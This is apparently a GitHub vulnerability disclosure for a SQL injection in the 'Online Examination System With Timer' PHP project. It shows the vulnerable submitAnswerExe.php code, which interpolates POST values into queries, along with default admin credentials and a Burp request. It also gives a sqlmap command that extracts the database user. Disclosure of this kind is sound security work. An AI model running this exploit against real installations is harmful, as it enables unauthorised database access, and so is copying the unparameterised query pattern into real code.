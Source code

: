 ## Online Examination System With Timer

## SQL Injection on `submitAnswerExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/query/submitAnswerExe.php
```

The potential injection point is located in `submitAnswerExe.php`. This file directly utilizes the `$exmne_id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# submitAnswerExe.php

extract($_POST);
$exmne_id = $_SESSION['examineeSession']['exmne_id'];
$selExAttempt = $conn->query("SELECT * FROM exam_attempt WHERE exmne_id='$exmne_id' AND exam_id='$exam_id'  ");
$selAns = $conn->query("SELECT * FROM exam_answers WHERE axmne_id='$exmne_id' AND exam_id='$exam_id' ");
if($selExAttempt->rowCount() > 0)
{
	$res = array("res" => "alreadyTaken");
}
```

### Proof of Concept:

**Burp Request:**

```
POST /query/submitAnswerExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 85
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/home.php?page=exam&id=11
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

exam_id=11&examAction=&answer%5B30%5D%5Bcorrect%5D=fgh&answer%5B29%5D%5Bcorrect%5D=q2
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513172003686](./screenshot/image-20240513172003686.png)
